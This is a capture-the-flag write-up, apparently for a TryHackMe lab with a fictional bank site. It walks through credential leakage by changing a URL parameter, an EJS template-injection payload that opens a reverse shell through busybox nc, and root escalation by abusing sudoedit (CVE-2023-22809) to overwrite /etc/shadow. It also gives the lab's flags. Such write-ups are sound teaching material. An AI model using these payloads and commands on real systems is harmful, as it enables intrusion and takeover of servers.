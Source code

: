 **Q:** What's Tyrell Wellick's phone number?<br>
**A:** 842-029-5701<br>
1. nmap scan shows, port 22 and 80 are open
2. navigate to port 80 via browser, shows domain cyprusbank.thm (add to /etc/hosts)
3. cyprusbank.thm didnt show much, so with gobuster vhost found subdomain admin.cyprusbank.thm (add to /etc/hosts)
4. creds that was given `Olivia Cortez:olivi8` worked there.
5. navigate to "messages" and at url can be seen http://admin.cyprusbank.thm/messages/?c=5 , tryed to lower the parameter 'c' and at 0 it showed `Gayle Bev:p~]P@5!6;rs558:q`
6. logged in as Gayle Bev and phones numbers can be seen.

**Q:** User flag?<br>
**A:** THM{4lways_upd4te_uR_d3p3nd3nc!3s} <br>
1. after entering as Gayle Bev, the 'settings' tab on the site can be accessable.
2. via burp-suite repeater I've played abit with the request, and it doesnt actually changes the user's password, so i tryed to delete the parameter of 'password' and it reveals some embeded js files (EJS).
3. Via google, found SSTI for EJS, and the payload looked like this: (had to use BusyBox since my nc and target's nc didnt match verions and without it, i couldnt execute commands)
  name=1&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('busybox nc <IP> 1234 -e /bin/sh');
4. logged in as user 'web' and it had the flag in hes home dir.

**Q:** root flag?<br>
**A:** THM{4nd_uR_p4ck4g3s} <br>
1. upgraded shell via python3 and stty raw...
2. sudo -l , revealed the user can execute without pass this:<br>
>sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
3. searched exploit for sudoedit 1.9.12p1, found this usefull:<br>
>https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis
4. export EDITOR="nano -- /etc/shadow"
5. (on my kali) openssl passwd -6 <new pass for root>
6. run "sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm" 
7. replaced root's password and did 'su root' (with my new pass) 
